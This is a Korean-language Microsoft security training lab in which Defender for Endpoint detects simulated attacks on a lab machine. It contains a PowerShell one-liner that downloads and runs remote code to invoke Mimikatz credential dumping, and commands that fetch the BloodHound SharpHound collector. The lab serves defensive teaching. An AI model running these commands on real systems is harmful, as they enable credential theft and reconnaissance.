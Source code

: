 # 모듈 2 데모 - 엔드포인트용 Microsoft Defender를 사용하여 위협 완화

**참고** 이 데모의 성공적인 완료는 [필수 구성 요소 문서](00-prerequisites.md)에 있는 모든 단계를 완료하는 것에 달려 있습니다.

## 시뮬레이션된 공격

이 작업에서는 두 가지 시뮬레이션 공격을 실행하여 엔드포인트용 Microsoft Defender의 기능을 살펴봅니다.

1. 브라우저의 Microsoft Defender XDR 포털에 아직 접속해 있지 않은 경우, 테넌트의 관리자로 로그인된 Microsoft Defender XDR(<https://security.microsoft.com>)로 이동합니다.

*WIN1*에서 *PowerShell*을 사용하여 *시뮬레이션된* 공격을 실행하여 엔드포인트용 Microsoft Defender의 기능을 살펴보겠습니다.

`Attack 1: Mimikatz - Credential Dumping`

1. *WIN1* 컴퓨터에서 검색 창에 **명령**을 입력하고 **관리자 권한으로 실행**을 선택합니다.

1. **관리자: 명령 프롬프트** 창을 열고 **Enter** 키를 눌러 실행합니다.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. *액세스가 거부되었습니다*라는 메시지와 *발견된 위협*을 표시하는 `Microsoft Defender Antivirus, Windows Security Virus and threats protection`의 팝업 메시지가 표시됩니다.

1. **관리자: 명령 프롬프트** 창을 **exit**를 입력하고 **Enter** 키를 눌러 종료합니다.

`Attack 2: Bloodhound - Collection`

1. *WIN1* 컴퓨터에서 검색 창에 **PowerShell**을 입력하고 **Windows PowerShell**을 선택한 다음 **관리자 권한으로 실행**을 선택합니다.

1. **관리자: Windows PowerShell** 창에 다음 명령을 복사하여 붙여넣고 **Enter** 키를 눌러 실행합니다.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**참고:** 한 번에 하나씩 명령을 복사하여 붙여넣고 실행하는 것이 좋습니다. *메모장*을 열고 명령을 임시 파일에 복사하면 됩니다. 첫 번째 명령은 *Atomic Red Team* 폴더가 있는 동일한 폴더에 *ExternalPayloads*라는 폴더를 만듭니다. 두 번째 명령은 *BloodHound* GitHub 리포지토리에서 *SharpHound.ps1* 파일을 다운로드하여 *ExternalPayloads* 폴더에 저장합니다.

1. *발견된 위협*을 표시하는 `Windows Security Virus and threats protection`의 팝업 메시지가 표시되어야 합니다.

1. **관리자: Windows PowerShell** 창에 다음 명령을 복사하여 붙여넣고 **Enter** 키를 눌러 실행합니다.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. 출력이 *True*이면 Microsoft Defender 바이러스 백신이 바이러스 백신 페이로드 파일을 제거하지 않은 것입니다. 출력이 *False*이면 바이러스 백신 페이로드 파일이 Microsoft Defender 바이러스 백신에 의해 제거된 것입니다. 출력이 *False*가 될 때까지 위쪽 화살표 키를 사용하여 명령을 반복합니다.

## 이 데모를 완료했습니다.
